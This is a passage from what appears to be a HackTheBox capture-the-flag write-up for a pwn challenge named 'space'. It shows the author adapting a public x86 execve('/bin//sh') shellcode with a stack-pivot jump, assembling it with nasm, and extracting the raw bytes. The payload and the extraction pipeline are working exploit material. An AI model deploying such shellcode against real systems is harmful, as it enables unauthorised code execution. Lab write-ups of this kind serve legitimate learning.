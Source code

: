 
## Shellcode

lets create a shellcode for our exploit.

this is my shellcode that i got from shellstrom and i modify a little to work with our condition


`orginal shellcode`

```shell
[SECTION .text]
global _start
_start:

xor edx,edx ; edx = 0 (it will be used as *envp = NULL)
xor eax,eax ; eax = 0 (it will be used as a null-terminating char)
push eax
push 0x68732f2f
push 0x6e69622f ; here you got /bin//sh\x00 on the stack
mov ebx,esp ; ebx <- esp; ebx points to /bin//sh\x00
mov al, 0xb ; al = 0xb, 11, execve syscall id
int 0x80 ; execve("/bin//sh\x00",Null,Null)
``` 


   `modified shellcode..`


```shell
[SECTION .text]
global _start
_start:

xor edx,edx ; edx = 0 (it will be used as *envp = NULL)
xor eax,eax ; eax = 0 (it will be used as a null-terminating char)

"i added these two lines"
sub esp,0x16
jmp esp  "this will jump 22 steps back on esp"
"so we split it here , above shellcode goes after eip and below will before eip"

push eax
push 0x68732f2f
push 0x6e69622f ; here you got /bin//sh\x00 on the stack
mov ebx,esp ; ebx <- esp; ebx points to /bin//sh\x00
mov al, 0xb ; al = 0xb, 11, execve syscall id
int 0x80 ; execve("/bin//sh\x00",Null,Null) 
 ```

lets save this as `shellcode.asm` and convert this to shellcode.

```shell
┌─[✗]─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $nasm -f elf32 -l shellcode shellcode.asm 

┌─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $ls
jmp.py  rop..py  shellcode  shellcode.asm  shellcode.o  space  space.zip  subl.html
┌─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $objdump -d ./shellcode.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xd2\x31\xc0\x83\xec\x16\xff\xe4\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

```
